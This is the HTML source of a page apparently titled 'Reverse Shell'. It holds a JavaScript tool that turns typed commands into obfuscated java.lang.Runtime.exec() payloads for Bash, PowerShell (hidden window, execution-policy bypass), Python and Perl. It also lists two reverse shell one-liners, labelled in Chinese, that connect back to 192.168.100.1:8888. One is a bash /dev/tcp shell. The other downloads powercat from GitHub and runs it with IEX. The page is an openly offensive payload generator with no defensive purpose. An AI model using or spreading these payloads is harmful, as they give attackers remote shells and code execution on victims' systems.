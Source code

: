 ```yaml
---
layout: page
title: Reverse Shell
---
```

<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
</head>
<body>
<h1>java.lang.Runtime.exec() Payload</h1> <!-- 注释 -->
<input type="radio" id="bash" name="option" value="bash" onclick="processInput();" checked=""><label for="bash">Bash</label>
<input type="radio" id="powershell" name="option" value="powershell" onclick="processInput();"><label for="powershell">PowerShell</label>
<input type="radio" id="python" name="option" value="python" onclick="processInput();"><label for="python">Python</label>
<input type="radio" id="perl" name="option" value="perl" onclick="processInput();"><label for="perl">Perl</label><p></p>
<p><textarea rows="10" style="width: 100%; box-sizing: border-box; background:#1D1F21; color: #C9CACC;" id="input" placeholder="Type input here..."></textarea>
<textarea rows="5" style="width: 100%; box-sizing: border-box; background:#1D1F21; color: #C9CACC;" id="output" onclick="this.focus(); this.select();" readonly=""></textarea></p>
<script>
  var taInput = document.querySelector('textarea#input');
  var taOutput = document.querySelector('textarea#output');
    function processInput() {
        var option = document.querySelector('input[name="option"]:checked').value;
            switch (option) {
              case 'bash':
                taInput.placeholder = 'Type Bash here...';
                taOutput.value = 'bash -c {echo,' + btoa(taInput.value) + '}|{base64,-d}|{bash,-i}';
                break;
              case 'powershell':
                taInput.placeholder = 'Type PowerShell here...';
                poshInput = '';
                for (var i = 0; i < taInput.value.length; i++) { poshInput += taInput.value[i] + unescape("%00"); }
                taOutput.value = 'powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc ' + btoa(poshInput);
                break;
              case 'python':
                taInput.placeholder = 'Type Python here...';
                taOutput.value = "python -c exec('" + btoa(taInput.value) + "'.decode('base64'))";
                break;
              case 'perl':
                taInput.placeholder = 'Type Perl here...';
                taOutput.value = "perl -MMIME::Base64 -e eval(decode_base64('" + btoa(taInput.value) + "'))";
                break;
              default:
                taOutput.value = ''
            }
        if (!taInput.value) taOutput.value = '';
    }
taInput.addEventListener('input', processInput, false);
</script>

<b>Bash反弹命令：</b>
<p style="color:red;">bash -i &gt;&amp; /dev/tcp/192.168.100.1/8888 0&gt;&amp;1</p>
<b>PowerShell反弹命令：</b>
<p style="color:red;">powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c 192.168.100.1 -p 8888 -e cmd</p>
</body>
</html>

